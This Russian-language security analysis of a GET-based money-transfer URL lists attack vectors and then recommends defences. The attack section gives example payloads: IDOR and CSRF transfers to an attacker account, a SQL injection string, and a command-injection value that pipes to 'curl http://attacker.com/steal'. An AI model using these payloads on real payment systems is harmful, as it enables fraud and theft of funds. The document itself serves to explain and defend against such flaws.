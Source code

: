 # Входной параметр

``` url
https://moneytransfer.ru/?from_account_id=123&to_account_id=456&sum=300&token=abc234drf57d
```

---
# Атаки

---

## ⚔️ **Основные векторы атак**

### 1. **Insecure Direct Object References (IDOR)**

``` 
# Подмена параметров транзакции
https://moneytransfer.ru/?from_account_id=ATTACKER_ACCOUNT&to_account_id=456&sum=1000000&token=abc234drf57d

# Кража через изменение получателя
https://moneytransfer.ru/?from_account_id=123&to_account_id=ATTACKER_ACCOUNT&sum=300&token=abc234drf57d
```
**Риск:** Полный контроль над параметрами перевода

### 2. **Token Manipulation & Replay Attacks**
```
# Переиспользование токена для новых транзакций
https://moneytransfer.ru/?from_account_id=123&to_account_id=789&sum=5000&token=abc234drf57d

# Подбор токена (если слабая энтропия)
https://moneytransfer.ru/?from_account_id=123&to_account_id=456&sum=300&token=0000000000001
```

### 3. **Business Logic Exploitation: DoS**
```
# Отрицательные суммы (если допускается)
https://moneytransfer.ru/?from_account_id=456&to_account_id=123&sum=-300&token=abc234drf57d

# Экстремальные значения
https://moneytransfer.ru/?from_account_id=123&to_account_id=456&sum=9999999999&token=abc234drf57d
```
### **4. Race Condition**
```
# Многократное выполнение одного токена
https://moneytransfer.ru/?from_account_id=123&to_account_id=456&sum=300&token=abc234drf57d
# Повторяем запрос 100+ раз

# Быстрое выполнение двух транзакций до блокировки баланса
Запрос 1: from=123 to=456 sum=300 (весь баланс)
Запрос 2: from=123 to=789 sum=300 (тот же баланс)
```

### 5. **Parameter Pollution & Injection**
```
# SQL Injection через параметры
https://moneytransfer.ru/?from_account_id=123' OR '1'='1&to_account_id=456&sum=300&token=abc234drf57d

# Command Injection (если используется shell)
https://moneytransfer.ru/?from_account_id=123|curl http://attacker.com/steal&to_account_id=456&sum=300&token=abc234drf57d
```

---

## 🎯 **Специфические финансовые атаки**

### 6. **Transaction Reordering: MITM**
```
# Захват транзакций через MITM и изменение порядка
Исходная: A→B 100 руб.
Атака:    A→C 100 руб. (злоумышленник)
```

### 7. **Cross-Site Request Forgery (CSRF)**
```
<!-- На вредоносном сайте -->
<img src="https://moneytransfer.ru/?from_account_id=123&to_account_id=ATTACKER&sum=1000&token=abc234drf57d">
```

### 8. **Session Hijacking через Token**
```
# Если токен привязан к сессии - перехват сессии
# Украденный токен = полный доступ к аккаунту
```

### 9. **Cache Poisoning**
```
# Если прокси кэширует ответы - отравление кэша
https://moneytransfer.ru/?from_account_id=123&to_account_id=456&sum=300&token=abc234drf57d
# Кэшируется успешный ответ для повторного использования
```

### 10. **HTTP Parameter Contamination**
```
# Добавление дублирующихся параметров
https://moneytransfer.ru/?from_account_id=123&to_account_id=456&to_account_id=ATTACKER&sum=300&token=abc234drf57d
```

---

## 🛡️ **Рекомендации по защите**

### **Немедленные меры:**

1. **Переход на POST запросы** для модифицирующих операций
2. **Server-side валидация** всех параметров транзакции
3. **Привязка токена** к конкретной транзакции (amount, from, to, timestamp)
4. **Одноразовость токенов** с немедленной инвалидацией

### **Архитектурные изменения:**

5. **Двухфакторная аутентификация** для транзакций
6. **Лимиты и мониторинг** аномальной активности
7. **Audit trail** всех финансовых операций
8. **Rate limiting** по IP/пользователю/токену

### **Технические улучшения:**

9. **HMAC подпись** параметров вместо простого токена
10. **Idempotency keys** для предотвращения повторных исполнений
11. **Бизнес-логика на сервере** - клиент только инициатор
12. **Regular security audits** финансовых endpoints

---

## 💡 **Ключевые выводы**

Данный URL демонстрирует **критически небезопасный подход** к финансовым операциям:

- ❌ **GET для модифицирующих операций**
- ❌ **Токен не привязан к параметрам**
- ❌ **Отсутствует server-side валидация**
- ❌ **Нет защиты от повторного использования**
- ❌ **Параметры полностью контролируются клиентом**

**Любая из этих атак может привести к полной компрометации финансовой системы банка.**